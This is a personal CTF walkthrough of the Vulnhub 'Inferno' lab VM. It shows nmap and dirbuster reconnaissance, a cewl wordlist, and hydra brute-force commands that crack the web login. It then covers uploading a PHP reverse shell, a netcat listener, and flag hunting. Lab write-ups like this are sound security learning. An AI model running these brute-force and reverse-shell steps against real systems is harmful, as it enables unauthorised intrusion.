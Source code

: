 ```yaml
---
layout: post
title:  CTF Inferno
date:   2021-07-19 10:59:52 -0600
categories: CTF
tags: Pentest
---
```

# CTF Inferno
## Discovery
Link to download the vm: [Vulnhub](https://www.vulnhub.com/entry/inferno-11,603/)
Info: `There are two flags`
### netdiscover
`sudo netdiscover -r 192.168.0.0/16`
![](images/inferno_netdiscover.png)
IP: `192.168.0.22`
### nmap
`sudo nmap -sV -p- 192.168.0.22`
![](images/inferno_nmap.png)
Ports:
22: ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80: http Apache httpd 2.4.38 ((Debian))
### Port 80
![](images/inferno_web.png)
I found nothing with the inspector.
let\'s translate the text and run a dirbuster.
#### Translate
| Corsica                                   | English                                  |
|:------------------------------------------|:-----------------------------------------|
|Oh quanto parve a me gran maraviglia       |Oh how wonderful it seemed to me when I   |
|quand\'io vidi tre facce a la sua testa!    |saw three faces on his head!              |
|L\'una dinanzi, e quella era vermiglia;     |One in front, and that was red;           |
|                                           |                                          |  
|l\'altr\'eran due, che s\'aggiugnieno a questa|the other was two, which are added to this|
|sovresso \'l mezzo di ciascuna spalla,      |over the middle of each shoulder,         |
|e se\' giugnieno al loco de la cresta       |and they reached the place of the ridge   |

### Directory listening
`sudo dirbuster`
![](images/inferno_dirb.png)
Let\'s go to http://192.168.0.22/inferno
I\'m stuck with a login portal
![](images/inferno_sign.png)
### Apache/2.4.38
The version of Apache seem outdated.
Exploit databases:
[https://www.exploit-db.com/exploits/46676](https://www.exploit-db.com/exploits/46676)
hmmm, thois exploit is  not for now, I have to upload the php file on the webserver first.
And them I will be able to execute commands as root.
`Local Privilege Escalation `

### Google image
I put the image in google image:
Title: `Divine Comedy Illustrated by Botticelli`
Botticelli, Sandro, 1485, map of hell,

But I still can\'t login.

### Install cewl
I have some text but even in english or french I don\'t understand, they should be usefull.
Source: [Null-byte](https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-5-creating-custom-wordlist-with-cewl-0158855/)
He use `cewl`. 
It\'s not available with pacman or AUR so I will search in on GitHub.
GitHub: [CeWL](https://github.com/digininja/CeWL)
I also need ruby: `sudo pacman -S ruby`
And bundle: `gem install bundler`
Warning: `You don't have /home/peanutstick/.local/share/gem/ruby/3.0.0/bin in your PATH,gem executables will not run.`
Add to path: `export PATH=$PATH:~/.local/share/gem/ruby/3.0.0/bin`
Make it persitent:
In /etc/profil add this in the good section.
`append_path '/home/peanutstick/.local/share/gem/ruby/3.0.0/bin'`
```
cd /usr/share
git clone https://github.com/digininja/CeWL.git
cd Cewl
bundle install
```
It\'s borring to move in the directory and type ruby cewl.rb, so I will add and alias.
~/.zshrc
`alias cewl="ruby /usr/share/Cewl/cewl.rb"`

### Create the wordlist
`cewl -w infernowordlist.txt http://192.168.0.22`
![](images/inferno_cewl.png)

## Exploit

### Dictionary attack on Basic HTTP Authentication
Source [https://github.com/gnebbia/hydra_notes](https://github.com/gnebbia/hydra_notes)
Now let\'s try:
Nop: `hydra -L infernowordlist.txt -P infernowordlist.txt -s 80 -f 192.168.0.22 http-get /inferno`
Nop: `hydra -L infernowordlist.txt -P rockyou.txt -s 80 -f 192.168.0.22 http-get /inferno`
Nop: `hydra -L rockyou.txt -P infernowordlist.txt -s 80 -f 192.168.0.22 http-get /inferno`

My wordlist is useless?! I just spend 1 hour to install Cewl and I don't need it.
Don\'t know: `hydra -L rockyou.txt -P rockyou.txt -s 80 -f 192.168.0.22 http-get /inferno`
It's take too much time so I will try other users:
Yep: `hydra -l admin -P rockyou.txt -s 80 -f 192.168.0.22 http-get /inferno`
![](images/inferno_httpauth.png)
User: `admin`
Password: `dante1`
![](images/inferno_cp.png)
I can browser the files of the web site, I have to found a way to upload a file.

### Try to upload a file
The exploits on exploit db dosen\'t work.
I will read more files to see if I can find something intresting.
I can upload files here:
 `/inferno/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/`
So I download a revers shell for pentestmonkey: [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
I set the $IP = '192.168.0.16' (it\'s my machine)
and I upload it.
Them I listen with netcat: `netcat -lvp 1234`.
And got to `http://192.168.0.22/inferno/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/reversshell.php`
And I\'m in!
![](images/inferno_netcat.png)
I\'m using grep to see files with .txt, I found 2 binaries in download.
`grep ".txt" . -R`
![](images/inferno_grep.png)
Oh I forgot... this command is use to search things in files.
I can try with the word `flag`.
![](images/inferno_grepflag.png)
I can\'t open them it's only binaries.
I will see what is in the directory:
`ls -la`
I found an hiden flag: `.download.dat`
`cat .download.dat`
```
c2 ab 4f 72 20 73 65 e2 80 99 20 74 75 20 71 75 65 6c 20 56 69 72 67 69 6c 69 
6f 20 65 20 71 75 65 6c 6c 61 20 66 6f 6e 74 65 0a 63 68 65 20 73 70 61 6e 64 
69 20 64 69 20 70 61 72 6c 61 72 20 73 c3 ac 20 6c 61 72 67 6f 20 66 69 75 6d 
65 3f c2 bb 2c 0a 72 69 73 70 75 6f 73 e2 80 99 69 6f 20 6c 75 69 20 63 6f 6e 
20 76 65 72 67 6f 67 6e 6f 73 61 20 66 72 6f 6e 74 65 2e 0a 0a c2 ab 4f 20 64 
65 20 6c 69 20 61 6c 74 72 69 20 70 6f 65 74 69 20 6f 6e 6f 72 65 20 65 20 6c 
75 6d 65 2c 0a 76 61 67 6c 69 61 6d 69 20 e2 80 99 6c 20 6c 75 6e 67 6f 20 73 
74 75 64 69 6f 20 65 20 e2 80 99 6c 20 67 72 61 6e 64 65 20 61 6d 6f 72 65 0a 
63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 63 65 72 63 61 72 20 6c 6f 
20 74 75 6f 20 76 6f 6c 75 6d 65 2e 0a 0a 54 75 20 73 65 e2 80 99 20 6c 6f 20 
6d 69 6f 20 6d 61 65 73 74 72 6f 20 65 20 e2 80 99 6c 20 6d 69 6f 20 61 75 74 
6f 72 65 2c 0a 74 75 20 73 65 e2 80 99 20 73 6f 6c 6f 20 63 6f 6c 75 69 20 64 
61 20 63 75 e2 80 99 20 69 6f 20 74 6f 6c 73 69 0a 6c 6f 20 62 65 6c 6c 6f 20 
73 74 69 6c 6f 20 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 6f 6e 6f 
72 65 2e 0a 0a 56 65 64 69 20 6c 61 20 62 65 73 74 69 61 20 70 65 72 20 63 75 
e2 80 99 20 69 6f 20 6d 69 20 76 6f 6c 73 69 3b 0a 61 69 75 74 61 6d 69 20 64 
61 20 6c 65 69 2c 20 66 61 6d 6f 73 6f 20 73 61 67 67 69 6f 2c 0a 63 68 e2 80 
99 65 6c 6c 61 20 6d 69 20 66 61 20 74 72 65 6d 61 72 20 6c 65 20 76 65 6e 65 
20 65 20 69 20 70 6f 6c 73 69 c2 bb 2e 0a 0a 64 61 6e 74 65 3a 56 31 72 67 31 
6c 31 30 68 33 6c 70 6d 33 0a$
```
If I decode it I get that:
```
Â«Or seâ tu quel Virgilio e quella fonte
che spandi di parlar sÃ¬ largo fiume?Â»,
rispuosâio lui con vergognosa fronte.

Â«O de li altri poeti onore e lume,
vagliami âl lungo studio e âl grande amore
che mâha fatto cercar lo tuo volume.

Tu seâ lo mio maestro e âl mio autore,
tu seâ solo colui da cuâ io tolsi
lo bello stilo che mâha fatto onore.

Vedi la bestia per cuâ io mi volsi;
aiutami da lei, famoso saggio,
châella mi fa tremar le vene e i polsiÂ».
```
I have to do something with it.




















